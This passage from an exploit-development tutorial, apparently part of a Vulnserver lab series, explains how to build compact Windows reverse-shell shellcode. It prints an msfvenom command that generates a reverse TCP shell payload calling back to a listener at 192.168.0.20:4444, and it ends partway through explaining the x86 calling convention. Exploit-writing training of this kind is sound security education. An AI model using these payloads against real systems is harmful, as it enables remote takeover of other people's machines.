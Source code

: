 However, if we are exploiting a `TCP/IP` server like `Vulnserver`,
chances are that the 'WinSock' DLL library is already loaded and
initialized. That means that we can spare `WinSock` rutines
initialization from our shellcode that can save us a great amount of
bytes. Every byte counts.

As a reference, let’s create a reverse shellcode using `msfvenom`:

**msfvenom.**

``` console
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.20 LPORT=4444 EXITFUNC=thread -f raw -o /dev/null -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Saved as: /dev/null
```

This shellcode is 351 bytes long. And, if you remember on our [previous
post](../vulnserver-gter/), we only had around 144 bytes to play.

The whole idea of reusing instructions is to minimize the resultant
shellcode.

To do that, we need to know what functions need to be called, with what
parameters, and translate that into Assembler language to then convert
it into our shellcode, keeping in mind to avoid the null bytes that
would lead to making our shellcode unusable. It sounds harder than it
really is.

With that in mind, let’s look at the signatures of the needed functions:

### WSASocketA()

**WSASocketA() signature.**

``` cpp
SOCKET WSAAPI WSASocketA(
  int                 af,
  int                 type,
  int                 protocol,
  LPWSAPROTOCOL_INFOA lpProtocolInfo,
  GROUP               g,
  DWORD               dwFlags
);
```

If we are going to write this in Assembler, we must remember that in the
x86 architecture the functions are called in a very specific way:

1. The parameters are pushed to the stack on reverse order.
